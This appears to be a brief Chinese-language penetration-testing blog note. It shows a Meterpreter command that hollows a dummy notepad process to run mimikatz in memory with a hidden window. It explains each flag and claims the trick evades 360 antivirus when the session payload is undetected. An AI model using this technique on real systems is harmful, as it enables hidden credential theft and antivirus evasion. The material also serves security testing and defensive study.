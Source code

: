 ```yaml
---
title: "Meterpreter 内存加载执行"
date: 2019-07-21T00:00:00+08:00
draft: false
tags: ['metasploit','bypass']
categories: ['内网渗透','bypass']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


具体原理和进程注入类似, 先创建一个正常的进程, 然后把这个进程里的内存空间覆盖成我们想要执行的程序.

Meterpreter 方式.

<!--more-->

```
execute -H -m -d notepad.exe -f mimikatz.exe -i
```

`-H` 隐藏窗口.

`-m` 在内存中执行.

`-d` 指定覆盖进程 (dummy).

`-f` 指定执行程序 (本地文件).

`-i` 与该程序交互 (可选).

`-a` 传递参数 (可选).

在实际测试中能够绕过 360 的检测, 当然前提是你反弹会话的 payload 是免杀的.